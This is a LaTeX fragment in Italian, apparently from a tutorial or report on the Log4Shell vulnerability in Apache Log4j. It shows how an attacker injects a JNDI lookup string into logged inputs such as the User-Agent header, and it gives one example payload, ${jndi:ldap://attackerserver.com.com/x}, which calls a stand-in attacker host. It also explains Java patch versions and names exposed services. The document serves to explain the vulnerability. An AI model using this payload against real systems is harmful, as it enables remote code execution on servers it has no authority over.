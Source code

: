 \documentclass[a4paper, 12pt]{article}
\begin{document}
Tutto ciò che un attaccante deve fare per sfruttare la vulnerabilità è trovare un input che viene registrato nei log ed iniettare una stringa del tipo:
\begin{center}
    \verb!${jndi:ldap://attackerserver.com.com/x}!
\end{center}
Questo potrebbe essere un'intestazione HTTP come lo User-Agent (comunemente registrato nei log) o un parametro di un form come username o password che viene loggato dalla applicazione.


\subsubsection{Patch nelle versioni Java}

Per diverso tempo sia per RMI che per LDAP il riferimento che era possibile specificare relativo alla codebase da importare non è stato affatto limitato, una chiamata lookup ad server LDAP o RMI controllato dall'attaccante portava direttamente all'esecuzione di codice remoto.

A partire dalla versione di Java \verb!8u121! l'inserimento di una codebase remota è stata bloccata di default per quanto riguarda RMI.
Apparentemente la patch era stata applicata anche per LDAP, ma si è rivelata completamente inefficace per il caricamento di oggetti tramite le codbase di factory. Pertanto, fino al rilascio di Java \verb!8u191! (circa tre anni fa) i riferimenti LDAP consentivano di caricare classi remote contenenti codice arbitrario tramite una chiamata JNDI lookup controllata.

Le versioni JDK successive a \verb!8u191! non sono vulnerabili al vettore di attacco LDAP. In queste versioni \verb!com.sun.jndi.ldap.object.trustURLCodebase! è impostato su \verb!false! per impostazione predefinita, il che significa che JNDI non può caricare codice remoto utilizzando LDAP. Tuttavia, esistono altri vettori di attacco capaci di causare RCE, un attaccante infatti potrebbe comunque sfruttare il codice di altre applicazioni esistenti sul server per ottenere il caricamento di codice remoto. 



\subsection{Requisiti dell'attacco}
Tantissimi servizi sono vulnerabili a questo exploit, servizi in cloud come Minecraft, Steam ma anche applicazioni desktop.
Qualsiasi software Java utilizzi la famosa libreria di Apache potrebbe essere esposto ad attacchi che sfruttano la vulnerablità.
\end{document}
